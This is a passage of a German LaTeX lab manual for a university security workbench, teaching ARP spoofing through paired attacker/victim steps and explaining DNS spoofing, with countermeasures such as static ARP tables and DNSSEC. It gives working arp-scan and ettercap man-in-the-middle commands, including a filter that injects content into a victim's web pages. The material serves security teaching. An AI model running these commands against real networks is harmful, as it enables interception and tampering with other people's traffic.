Dies kann sich ein Angreifer zu Nutze machen und sämtliche IP-Adressen mit seiner eigenen MAC-Adresse verknüpfen. Ein solcher manipulierter ARP-Reply ist in Abbildung \ref{fig:arp_fake_reply} dargestellt. Nach diesem ARP-Reply bekommt der Angreifer alle versendeten Daten und kann diese weiterleiten oder verändern. Ein Vergleich der Netzwerkkommunikation vor und nach der Manipulation der ARP-Tabelle ist in Abbildung \ref{fig:netzwerkverkehr_vergleich} skizziert.

\begin{figure}
	\centering
	
\includegraphics[width=\textwidth]{images/ARP_Spoofing/ARP_Fake_Reply}
	\caption{Manipulierter ARP-Reply der beim Zielrechner die IP-Adresse eines dritten Rechners mit der MAC-Adresse des Angreifers verknüpft}
	\label{fig:arp_fake_reply}
\end{figure}

\begin{figure}
	\centering
	
\includegraphics[width=\textwidth]{images/ARP_Spoofing/Netzwerkverkehr_Vergleich}
	\caption{links: Netzwerkkommunikation über das Gateway des Netzes direkt mit anderen Netzwerkteilnehmern; rechts: Netzwerkkommunikation erfolgt immer über den Rechner des Angreifers}
	\label{fig:netzwerkverkehr_vergleich}
\end{figure}

\section{Vorbereitung}
Notwendige Hardware:

\begin{itemize}
	\item Kali Linux 2.0 mit der Security Workbench (Rechner des Angreifers)
	\item Kali Linux 2.0 mit der Security Workbench (Rechner des Opfers)
	\item Router mit Internetverbindung
\end{itemize}

\section{Ablauf}
Für das ARP Spoofing sind zwei unterschiedliche Tutorials vorhanden. Das erste Tutorial ist als Einstieg gedacht und beschreibt das Verändern der ARP-Tabelle an einem fremden Gerät. Das zweite Tutorial baut darauf auf und verändert dann die vom fremden Gerät aufgerufenen Homepages indem ein YouTube-Video eingebunden und automatisch abspielt wird.

Da es bei dieser Art von Attacke immer mindestens zwei Teilnehmer gibt, wird dies auch im Tutorial widergespiegelt. Es gibt die beiden Rollen \emph{Angreifer} und \emph{Opfer}, die für ein Gelingen der Attacke abwechselnd beschrieben werden.


\subsection{Darstellung des Netzwerkverkehrs}
\paragraph{Angreifer \& Opfer} Starte die Security Workbench, falls noch nicht geschehen (siehe \ref{section_startWorkbench}: Einführung in das Arbeiten mit Linux). Der Startbildschirm ist in Abbildung \ref{fig:scriptstart} zu sehen. Wähle dort die Nummer 3 \enquote{ARP Spoofing Tutorials}

\begin{figure}
	\centering
	
\includegraphics[width=\textwidth]{images/Scriptstart}
	\caption{Bildschirmausgabe beim Start des Security Workbench Skriptes auf der Konsole}
	\label{fig:scriptstart}
\end{figure}

\paragraph{Angreifer} Wähle Nummer 1 \enquote{Einfaches ARP-Spoofing als Angreifer}

\paragraph{Opfer} Wähle Nummer 2 \enquote{Starte Darstellung des Netzwerkverkehrs als Opfer}

\paragraph{Angreifer \& Opfer} Stelle sicher, dass du direkten Zugriff auf das Host-Netzwerk hast. Wie das geht kannst du in der PDF-Dokumentation im Kapitel \enquote{Tunneln von Netzwerkadaptern} nachlesen.

\paragraph{Opfer} Rufe die Konfiguration deiner IP-Netzwerkschnittstellen auf und lese dort deine IP-Adresse aus, um sie dem Angreifer zu sagen:
\begin{lstlisting}
ifconfig
\end{lstlisting}

\paragraph{Opfer} Rufe deine ARP-Tabelle, wie in Abbildung \ref{fig:netzwerkverkehropfer} zu sehen, mit folgendem Befehl auf.
\begin{lstlisting}
arp -a
\end{lstlisting}
(\colorbox{altgray}{\lstinline|arp|} ist ein Paket zum Anzeigen und Manipulieren des Adress Resolution Protocols, \colorbox{altgray}{\lstinline|-a|} zeigt alle aktuellen Einträge der ARP-Tabelle)

\paragraph{Angreifer} Rufe die Konfiguration deiner IP-Netzwerkschnittstellen auf und lese dort dein Netzwerkinterface aus:
\begin{lstlisting}
ifconfig
\end{lstlisting}

\paragraph{Angreifer} Gib zunächst das verwendete Netzwerkinterface deines Rechners an (in der Regel eth0 bzw. wlan0) und führe mit folgendem Befehlen einen lokalen Netzwerk-Scan durch, um die IP-Adresse des Opfers herauszufinden. Wie in Abbildung \ref{fig:arpscan} zu sehen ist, werden nun die verfügbaren IP-Adressen des Netzwerks in einer Liste dargestellt.
\begin{lstlisting}
arp-scan --interface eth0 --localnet
\end{lstlisting}
(\colorbox{altgray}{\lstinline|--interface eth0 |} benennt das zu verwendende Netzwerkinterface über das gescannt werden soll; \colorbox{altgray}{\lstinline|--localnet |} generiert die IP-Adressen mithilfe der Konfiguration des Netzwerkinterfaces)

\begin{figure}
	\centering
	
\includegraphics[width=\textwidth]{images/ARP_Spoofing/arp_scan}
	\caption{Stand des Tutorials nachdem der ARP-Scan durchfegührt wurde}
	\label{fig:arpscan}
\end{figure}

\paragraph{Angreifer} Gib nun die IP-Adresse des gewünschten Opfers ein und starte ein ARP-Spoofing Angriff mit Ettercap.
\begin{lstlisting}
ettercap -T -i eth0 -M ARP /192.168.178.65// ///
\end{lstlisting}

\begin{itemize}
	\item \bashCommand{-T} sagt Ettercap, dass es  Informationen nur als Text darstellen und keine GUI verwenden soll
	\item \bashCommand{-i eth0} gibt das Interface an, das verwendet werden soll
	\item \bashCommand{-M ARP /192.168.178.65// ///} benennt die Art des Angriffs und das Ziel, in diesem Fall soll ein Man-in-the-Middle Angriff mithilfe von ARP-Spoofing ausgeführt werden
\end{itemize}


Ettercap zeigt uns nun in einer neuen Konsole den Netzwerkverkehr des Opfers wie in Abbildung \ref{fig:ettercaparp} beispielhaft zu sehen ist. Wichtig ist, dass die ersten Requests eingegangen sind, bevor du weitermachst.

\begin{figure}
	\centering
	
\includegraphics[width=\textwidth]{images/ARP_Spoofing/ettercaparp}
	\caption{Ettercap zeigt den Netzwerkverkehr des Opfers an}
	\label{fig:ettercaparp}
\end{figure}

\paragraph{Opfer} Rufe noch einmal deine ARP-Tabelle, wie in Abbildung \ref{fig:netzwerkverkehropfer} zu sehen, mit folgendem Befehl auf: \colorbox{altgray}{\lstinline|arp -a|}

Beim Vergleichen der beiden Tabellen sollte auffallen, dass die dynamischen Einträge bei der zweiten Tabelle alle auf die gleiche MAC-Adresse -- die des Angreifers -- zeigen.

 \begin{figure}
	\centering
	
\includegraphics[width=\textwidth]{images/ARP_Spoofing/NetzwerkverkehrOpfer}
	\caption{Ablauf des Tutorials aus Sicht des Opfers mit in gelb markierter ARP Tabelle vor dem Angriff und in grün markierter ARP Tabelle nach dem Angriff}
	\label{fig:netzwerkverkehropfer}
\end{figure}

\paragraph{Angreifer} Beende nun Ettercap durch drücken von \bashCommand{q}. Dadurch wird die ursprüngliche ARP-Tabelle des Opfers wiederhergestellt.

\subsection{Manipulation der Webseiten}
\paragraph{Angreifer \& Opfer} Starte die Security Workbench, falls noch nicht geschehen (siehe \ref{section_startWorkbench}: Einführung in das Arbeiten mit Linux). Der Startbildschirm ist in Abbildung \ref{fig:scriptstart} zu sehen. Wähle dort die Nummer 3 \enquote{ARP Spoofing Tutorials}

\paragraph{Angreifer} Wähle Nummer 3 \enquote{ARP-Spoofing und Verwendung von Filtern}

\paragraph{Opfer} Wähle Nummer 4 \enquote{Starte Manipulation der Webseiten als Opfer}

\paragraph{Angreifer \& Opfer} Stelle sicher, dass du direkten Zugriff auf das Host-Netzwerk hast. Wie das geht kannst du in der PDF-Dokumentation im Kapitel \enquote{Tunneln von Netzwerkadaptern} nachlesen.

\paragraph{Opfer} Rufe eine beliebige Homepage auf -- beispielsweise www.sueddeutsche.de. Schließe im Anschluss den Browser.

\paragraph{Angreifer} Gib zunächst das verwendete Netwzwerkinterface deines Rechners an (in der Regel eth0 bzw. wlan0) und führe mit folgendem Befehln einen lokalen Netzwerkscan durch, um die IP-Adresse des Opfers herauszufinden. Wie in Abbildung \ref{fig:arpscan} zu sehen ist, werden nun die verfügbaren IP-Adressen des Netzwerks in einer Liste dargestellt.
\begin{lstlisting}
arp-scan --interface eth0 --localnet
\end{lstlisting}

\begin{itemize}
	\item \bashCommand{--interface eth0} benennt das zu verwendende Netzwerkinterface welches gescannt werden soll
	\item \bashCommand{--localnet} generiert die IP-Adressen mithilfe der Netzwerkinterfacekonfiguration
\end{itemize}

Gib nun die IP-Adresse des gewünschten Opfers ein und starte den Angriff mit Ettercap.
\begin{lstlisting}
ettercap -T -q -F /root/thi.2016.iCTF/Projekte/ARPspoofing/test.ef -i eth0 -M ARP /192.168.178.65// ///
\end{lstlisting}

\begin{itemize}
	\item \bashCommand{-T} Ausführung auf der Kommandozeile, keine GUI
	\item \bashCommand{-q} steht für \enquote{quiet}, wodurch der Netzwerkverkehr nicht mehr in der Konsole dargestellt wird
	\item \bashCommand{-F /root/thi.2016.iCTF/Projekte/ARPspoofing/test.ef} Verwendung eines Etterfilter-Skriptes
	\item \bashCommand{-i eth0 } gibt das Interface an, das verwendet werden soll
	\item \bashCommand{-M ARP /192.168.178.65// ///} benennt die Art des Angriffs und das Ziel, in diesem Fall soll ein Man-in-the-Middle Angriff mithilfe von ARP-Spoofing ausgeführt werden
\end{itemize}

Nun wird der angegebene Filter auf alle Pakete angewendet, die von oder zu dem Opfer gesendet werden.

\paragraph{Opfer} Rufe noch einmal die gleiche Homepage auf. Jetzt sollten das eingebundene YouTube-Video eingebunden sein und abgespielt werden.

\paragraph{Angreifer} Beende nun Ettercap durch drücken von "q". Dadurch wird die ursprüngliche ARP-Tabelle des Opfers wiederhergestellt.

\section{Gegenmaßnahmen}

\subsection{Angriff erkennen}
ARP Spoofing lässt sich gut erkennen, wenn man die ARP-Tabellen der Netzwerkteilnehmer überwacht. Hier fällt auf, dass mehrere IP-Adressen einer einzigen MAC-Adresse zugeordnet sind (vergleiche Abbildung \ref{fig:arp_tabelle_nachher}).

\begin{figure}
	\centering
	
\includegraphics[width=\textwidth]{images/ARP_Spoofing/ARP_Tabelle_Nachher}
	\caption{Manipulierte ARP-Tabelle des angegriffenen Rechners}
	\label{fig:arp_tabelle_nachher}
\end{figure}

Auch über das Sniffen des Netzwerkverkehrs lässt sich ARP-Spoofing erkennen, da der Angreifer in regelmäßigen Zeitabständen eine Menge ARP-Pakete aussenden muss. Dies muss nicht per Hand gemacht werden, da bereits Systeme existieren, welche den Netzwerkverkehr analysieren und z.B. die ARP-Replys prüfen. Dadurch können fehlerhafte und gefälschte ARP-Replys herausgefiltert und an den Benutzer gemeldet werden. Beispiele für solche Systeme sind Personal Firewalls von \emph{Sygate} oder \emph{SnoopNetCop Pro}.

\subsection{Angriff abwehren}
Um das ARP Spoofing zu verhindern, können statische ARP-Tabellen verwendet werden. Der Nachteil dabei ist, dass diese Tabellen dann nicht mehr dynamisch sind und sie für jeden Teilnehmer geändert werden müssen, wenn z.B. ein neuer Netzwerkteilnehmer hinzukommt.

Eine weitere Möglichkeit in Linux-Netzwerken ist, den Benutzern keine Root-Rechte zu verleihen. Da für das Senden von ARP-Replys diese benötigt werden, kann man so eine Manipulation unterbinden. Diese Möglichkeit bietet allerdings keinen Schutz vor Angreifern, die einen eigenen Rechner in das Netz einbringen oder einen Rechner mit einem Live Betriebssystem starten.

%!TEX root = ../document.tex
\chapter{DNS-Spoofing}
In diesem Angriff wird auf das Domain Name System (DNS) eines Rechners zugegriffen, um die Zuordnung zwischen Domainnamen und zugehöriger IP-Adresse zu fälschen. Damit kann der Datenverkehr unbemerkt auf einen anderen Computer gelenkt werden, um z.B. Phishing- oder DoS-Angriffe durchzuführen.

\section{Erklärung}
\begin{figure}[H]
	\centering
	
\includegraphics[width=\textwidth]{images/DNS_Spoofing/normal_dns_lookup.jpg}
	\caption{Vorgehen eines DNS-Lookups}
	\label{fig:normal_dns_lookup}
\end{figure}

Die Adressierung und der anschließende Verbindungsaufbau zu einem Server erfolgt über eine eindeutige IP-Adresse. Da IP-Adressen im Allgemeinen sehr schlecht lesbar sind (z.B. 194.94.240.179) wurde das Domain Name System (DNS) eingeführt. Dieses ordnet jeder IP-Adresse einen für den Menschen verständlichen Namen (Domain Name) hinzu (z.B. www.thi.de). DNS ähnelt somit der Funktionsweise eines Telefonbuchs.

Abbildung \ref{fig:normal_dns_lookup} zeigt, wie die Suche nach der IP-Adresse normalerweise erfolgt. Zuerst wird in einem lokalen Zwischenspeicher (Cache) nach einer IP-Adresse gesucht, die zum Domain-Name \enquote{www.thi.de} gehört. Ist im lokalen Cache kein Eintrag enthalten, wird in einem DNS-Server weiter gesucht. Ein DNS-Server steht vielen Hosts zur Verfügung und hält eine große Anzahl von IPs bzw. Domain-Namen vorrätig. Ist auch hier kein entsprechender Eintrag vorhanden, wird die Anfrage an den Root-Server weitergeleitet. Der Root-Server ist ein allwissender DNS-Server, der einen Verweis auf einen weiteren DNS-Server geben kann, der die notwendigen Informationen enthält. Es gibt über die Welt verteilt 13 Root-Server.

Beim DNS-Spoofing versucht der Angreifer nun, dem Opfer einen gefälschten DNS-Eintrag unterzuschieben:
\begin{lstlisting}[caption=Echtes vs. gefälschtes DNS]{Name}
Korrekter DNS-Eintrag:   194.94.240.179  - www.thi.de
Gefälschter DNS-Eintrag: 123.123.123.123 - www.thi.de
\end{lstlisting}

Dabei nutzt der Angreifer die Antwortzeit zwischen DNS-Server und Opfer aus. Der Angreifer verfolgt den Netzwerkverkehr des Angegriffenen und sendet einen gefälschten DNS-Eintrag los, sobald das Opfer einen Eintrag suchen muss. Der PC des Opfers erhält den gefälschten DNS-Eintrag zu \enquote{www.thi.de} mit der IP-Adresse 123.123.123.123 des Angreifers, speichert diese gutgläubig im lokalen Cache ab und öffnet die Verbindung zum Server des Angreifers. Selbst wenn im Anschluss noch die richtige IP-Adresse durch den offiziellen DNS-Server geliefert wird, wird diese in der aktuellen Session nicht mehr berücksichtigt. Abbildung \ref{fig:poisoned_dns_lookup} verdeutlicht das Vorgehen beim DNS-Spoofing.

Will das Opfer nun mithilfe des Domain Name \enquote{www.thi.de} auf die Homepage der Technischen Hochschule zugreifen, landet es stattdessen auf dem Server mit der IP \enquote{123.123.123.123} des Angreifers. Dieser Angriff kann z.B. bei Banken-Homepages sehr gefährlich sein. Wenn der Angreifer die Original-Homepage entsprechend detailliert nachgebaut hat, bemerkt das Opfer u.U. gar nicht, dass es auf einer gefälschten Seite gelandet ist und teilt dem Angreifer unwissentlich alle seine Login-Daten für das Onlinebanking mit.

\begin{figure}[H]
	\centering
	
\includegraphics[width=\textwidth]{images/DNS_Spoofing/poisoned_dns_lookup.jpg}
	\caption{Vorgehen beim DNS-Spoofing}
	\label{fig:poisoned_dns_lookup}
\end{figure}

\section{Vorbereitung}
Für dieses Szenario gibt es kein Tutorial in der Security Workbench. Da es beim DNS-Spoofing vor allem auf die Geschwindigkeit beim Senden der Antwortnachricht - also des Angriffes - ankommt, ist dieses Tutorial nicht ohne größere Aufwände implementierbar. Der Angreifer muss mittels (\ref{chapter_arp_spoofing}: ARP-Spoofing) den Netzwerkverkehr auslesen, die Transaktions-ID (siehe nachfolgender Abschnitt) ermitteln und noch vor der aufgerufenen, legitimen IP-Adresse eine Antwort an den Client senden. 

\section{Ablauf}
Ein Client (z.B. Windows-Rechner) möchte die Internetseite der Technischen Hochschule Ingolstadt (www.thi.de) aufrufen. Dazu stellt dieser einen DNS-Request an seinen lokalen DNS-Server.
Wenn dieser lokale DNS-Server in seinem Cache keinen Eintrag findet, frägt er iterativ alle Namensserver nach ihren Einträgen ab, um zum Schluss die IP-Adresse von www.thi.de zu erhalten.

Da bei jeder DNS-Anfrage eine zufällig generierte Transaktions-ID mitgeschickt wird, und eine DNS-Antwort nur akzeptiert wird, wenn diese mit der Anfrage übereinstimmt, muss der Angreifer diese ermitteln, was sich in einem lokalen Netzwerk mit einem Sniffer sehr einfach realisieren lässt. Alternativ kann auch die Transaktions-ID erraten werden, wofür für die 16-Bit lange Transaktions-ID im Durchschnitt 32.768 Versuche notwendig sind.

\section{Gegenmaßnahmen}

Durch \emph{DNSSEC} kann die Authentizität einer DNS-Antwort verifiziert und somit DNS-Cache-Poisoning vorgebeugt werden. Durch eine asymmetrische Signatur kann der Absender der DNS-Antwort, also der DNS-Server, seine Antworten signieren, indem er mit dem nur ihm zugänglichen privaten Schlüssel den Record unterschreibt. Die Client-Seite kann anschließend im Gegenzug die Antwort mit dem öffentlichen Schlüssel des DNS-Servers überprüfen und somit verifizieren, ob die Antwort auch vom richtigen Server war.

%!TEX root = ../document.tex
\chapter{SSL Strip}
